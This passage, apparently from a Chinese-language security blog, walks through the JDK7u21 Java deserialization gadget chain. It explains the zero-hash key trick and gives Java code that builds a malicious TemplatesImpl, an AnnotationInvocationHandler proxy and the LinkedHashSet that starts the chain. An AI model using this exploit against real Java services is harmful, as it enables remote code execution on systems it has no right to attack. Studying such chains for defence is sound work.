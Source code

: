 简单来说就是遍历`this.memberValues`这个`Map`，把每次计算出来的`127*(key的hash)^(value的hash)`

就很膜作者的思路，他想到让`memberValues`这个Map只有一个键值对，让`key`的hash为0，这样127*0=0，然后0^xxx仍然是xxx（相同为0，不同为1）。再让value是恶意的`TemplatesImpl`对象，这样计算的就是那个`TemplatesImpl`对象的hash值，自然就相同了。tttttql。

至于`hash`为0的键，找到的是`f5a5a608`。



# 构造

稍微理清了整个链子的思路，就去构造即可。

首先是雷打不动的`TemplatesImpl`对象的设置：

```java
        byte[] evilCode = SerializeUtil.getEvilCode();
        TemplatesImpl templates = new TemplatesImpl();
        SerializeUtil.setFieldValue(templates,"_bytecodes",new byte[][]{evilCode});
        SerializeUtil.setFieldValue(templates,"_name","feng");
```

然后去产生`AnnotationInvocationHandler`对象，注意它的构造器：

```java
    AnnotationInvocationHandler(Class<? extends Annotation> var1, Map<String, Object> var2) {
        this.type = var1;
        this.memberValues = var2;
    }
```

`type`是`Templates.class`，`memberValues`就是要设置的那个巧妙的`Map`了：

```java
        HashMap<String, Object> memberValues = new HashMap<String, Object>();
        memberValues.put("f5a5a608","feng");
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor cons = clazz.getDeclaredConstructor(Class.class, Map.class);
        cons.setAccessible(true);
        InvocationHandler handler = (InvocationHandler)cons.newInstance(Templates.class, memberValues);
```

但是先暂时不把`TemplatesImpl`放进`memberValues`，接下来会说为什么。

然后就是动态代理的生成：

```java
        Templates proxy = (Templates) Proxy.newProxyInstance(
                Templates.class.getClassLoader(),
                new Class[]{Templates.class},
                handler
        );
```

然后就是生成反序列化链的起点，那个`HashSet`对象了：

```java
        HashSet hashSet = new LinkedHashSet();
        hashSet.add(templates);
        hashSet.add(proxy);
        memberValues.put("f5a5a608",templates);
```
